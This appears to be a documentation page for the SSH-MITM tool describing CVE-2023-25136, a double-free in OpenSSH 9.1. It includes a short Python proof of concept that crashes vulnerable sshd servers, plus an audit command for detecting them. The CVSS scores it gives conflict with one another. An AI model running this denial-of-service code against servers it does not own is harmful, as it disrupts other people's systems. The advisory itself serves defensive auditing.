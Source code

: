 .. _cve-2023-25136:

:bdg-danger:`CVSS 9.8` CVE-2023-25136
=====================================

.. card::

    :bdg-warning:`CVSS 5.3` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    ^^^
    OpenSSH server (sshd) 9.1 introduced a double-free vulnerability during options.kex_algorithms handling.
    This is fixed in OpenSSH 9.2. The double free can be leveraged, by an unauthenticated remote attacker in
    the default configuration, to jump to any location in the sshd address space.

    One third-party report states "remote code execution is theoretically possible."
    +++
    **Affected Software:**

    * OpenSSH == 9.1


Description
-----------

OpenSSH version 9.2p1 was recently released with a fix for a double-free vulnerability.
The vulnerability has a severe potential impact on OpenSSH servers and can result in Denial of Service (DoS)
or Remote Code Execution (RCE). The JFrog Security Research team investigated the vulnerability and published a blog
post with details on the vulnerability, who is affected, and a proof-of-concept to trigger it causing a DoS.

The exploit involves sending a malicious request to an OpenSSH server, triggering a double-free vulnerability in the compat_kex_proposal() function.

JFrog created a PoC exploit code, which causes a DoS in the OpenSSH server:

.. code-block:: python

    import paramiko

    VICTIM_IP = "127.0.1"
    CLIENT_ID = "PuTTY_Release_0.64"

    def main():
        transport = paramiko.Transport(VICTIM_IP)
        transport.local_version = f"SSH-2.0-{CLIENT_ID}"
        transport.connect(username='', password='')


    if __name__ == "__main__":
        main()

SSH-MITM has the PoC integrated as an audit command, which can be used with following arguments:

.. code-block:: bash

    $ ssh-mitm audit CVE-2023-25136 --host 192.168.0.1
    OK -> server seems vulnerable


Mitigation
----------

It is recommended to upgrade to OpenSSH 9.2

Release Notes 9.2
-----------------

    fix a pre-authentication double-free memory fault
    introduced in OpenSSH 9.1. This is not believed to be exploitable,
    and it occurs in the unprivileged pre-auth process that is
    subject to chroot(2) and is further sandboxed on most major
    platforms.


References
----------

* http://www.openwall.com/lists/oss-security/2023/02/13/1
* https://bugzilla.mindrot.org/show_bug.cgi?id=3522
* https://ftp.openbsd.org/pub/OpenBSD/patches/7.2/common/017_sshd.patch.sig
* https://github.com/openssh/openssh-portable/commit/486c4dc3b83b4b67d663fb0fa62bc24138ec3946
* https://jfrog.com/blog/openssh-pre-auth-double-free-cve-2023-25136-writeup-and-proof-of-concept/
* https://news.ycombinator.com/item?id=34711565
* https://www.openwall.com/lists/oss-security/2023/02/02/2
